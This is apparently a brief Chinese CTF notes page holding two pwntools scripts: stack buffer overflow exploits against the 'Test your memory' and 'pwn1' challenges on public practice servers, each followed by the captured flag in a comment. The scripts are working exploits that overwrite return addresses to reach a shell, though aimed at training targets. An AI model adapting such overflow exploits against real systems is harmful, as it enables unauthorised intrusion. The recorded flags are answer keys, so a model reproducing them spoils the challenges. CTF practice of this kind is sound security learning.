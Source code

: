 # 7.26 

> 划水的时间有点长，做几道垃圾题水一下，最近只看书去了……

## Test your memory

```python
# 0x80485d0
from pwn import * 
#sh = process('./memory.838286edf4b832fd482d58ff1c217561')
sh=remote('pwn2.jarvisoj.com',9876)
kkp=sh.recvn(45)
kp=kkp[35:45]
payload='a'*(0x13+4)
payload+=p32(0x80485bd)
payload+=p32(0x8048677)
payload+=p32(0x80487e0)
print payload
sh.sendline(payload)
sh.interactive()
#CTF{332e294fb7aeeaf0e1c7703a29304343}

```

## pwn1

```python
from pwn import *

#sh=process('./pwn1')
sh=remote('buuoj.cn',6001)
offset=23
sys=0x401186
payload='a'*offset+p64(sys)
sh.sendline(payload)
sh.interactive()
#flag{8ebc9475-b258-4d49-9493-7646a6cf2acc}
```

